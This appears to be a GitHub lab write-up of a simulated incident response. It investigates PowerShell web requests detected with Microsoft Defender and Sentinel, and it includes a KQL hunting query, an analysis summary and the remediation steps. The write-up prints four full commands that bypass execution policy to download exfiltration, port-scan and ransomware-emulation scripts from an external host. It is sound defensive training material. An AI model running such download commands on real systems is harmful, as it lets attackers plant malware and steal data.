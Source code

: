 <p align="center">
  <img src="https://github.com/user-attachments/assets/4a9b499f-2301-49f5-9a60-5521b5c35fca" alt="Description" width="1200">
</p>

# PowerShell-Suspicious-Web-Request

## Platforms and Languages Leveraged
- Windows 10 Virtual Machines (Microsoft Azure)
- Microsoft Sentinel 
- EDR Platform: Microsoft Defender for Endpoint
- Kusto Query Language (KQL)

---

##  Scenario

Sometimes when a bad actor has access to a system, they will attempt to download malicious payloads or tools directly from the internet to expand their control or establish persistence. This is often achieved using legitimate system utilities like PowerShell to blend in with normal activity. By leveraging commands such as Invoke-WebRequest, they can download files or scripts from an external server and immediately execute them, bypassing traditional defenses or detection mechanisms. This tactic is a hallmark of post-exploitation activity, enabling them to deploy malware, exfiltrate data, or establish communication channels with a command-and-control (C2) server. Detecting this behavior is critical to identifying and disrupting an ongoing attack.

---

## Detection & Analysis

An alert titled “Kyle – PowerShell Suspicious Web Request” was triggered on the device kylesvm. During investigation, it was discovered that the following four distinct PowerShell web requests were executed using Invoke-WebRequest to download scripts from a GitHub repository:

---

## PowerShell Commands Executed:

- powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range /entropy-gorilla/exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1

- powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range /entropy-gorilla/eicar.ps1 -OutFile C:\programdata\eicar.ps1

- powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range /entropy-gorilla/portscan.ps1 -OutFile C:\programdata\portscan.ps1
  
- powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range /entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1
---

## Interview 

The incident was tied to a single user on one device. When contacted, the user reported attempting to install free software, after which a black screen appeared briefly with no noticeable outcome.

---

## Execution Confirmation

Using Microsoft Defender for Endpoint (MDE), it was confirmed that the scripts were executed on the host. The following KQL query was used to verify execution:

**Query used to locate events:**

```kql
let TargetHostname = "kylesvm";
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]); DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, ProcessCommandLine
| summarize Count = count() by AccountName, DeviceName, FileName, ProcessCommandLine
```
---

## Malware Analysis Summary

The downloaded scripts were submitted to the malware reverse engineering team, and the following behaviors were identified:

- exfiltratedata.ps1 Generates simulated employee data, compresses it via 7-Zip, and uploads it to Azure Blob Storage to emulate data exfiltration.
- eicar.ps1 Creates the EICAR test file used to simulate antivirus detection and response mechanisms.
- portscan.ps1 Performs a network scan over a local IP range for common open ports, logging the results.
- pwncrypt.ps1 Emulates ransomware by generating fake files, encrypting them, and leaving ransom instructions on the desktop.

---
  
## Containment, Eradication & Recovery

- The affected device (kylesvm) was isolated via MDE.
- A full anti-malware scan was performed.
- No active malware was found; the device was subsequently removed from isolation. 

---

## Post-Incident Activities

- The involved user was required to complete additional security awareness training.
- The organization’s KnowBe4 security package was upgraded, and training frequency
increased.
- A new PowerShell usage policy was introduced to restrict PowerShell access for
non-essential users. 
